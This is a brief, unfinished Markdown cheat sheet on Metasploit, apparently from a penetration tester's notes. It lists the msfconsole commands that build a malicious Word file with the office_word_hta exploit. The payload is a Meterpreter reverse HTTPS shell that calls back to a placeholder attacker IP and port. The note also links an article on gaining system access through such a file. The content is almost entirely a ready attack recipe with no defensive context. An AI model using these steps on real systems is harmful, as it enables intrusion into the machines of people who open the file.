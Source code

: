 # Metasploit

TODO: Finish the rest

```
msf > use exploit/windows/fileformat/office_word_hta

set payload windows/x64/meterpreter/reverse_https

set lhost <IP>

set lport <PORT>

run
```

---
## References

- [Network Intelligence: Getting System Access Using Malicious Word File](https://networkintelligence.ai/getting-system-access-using-malicious-word-file/)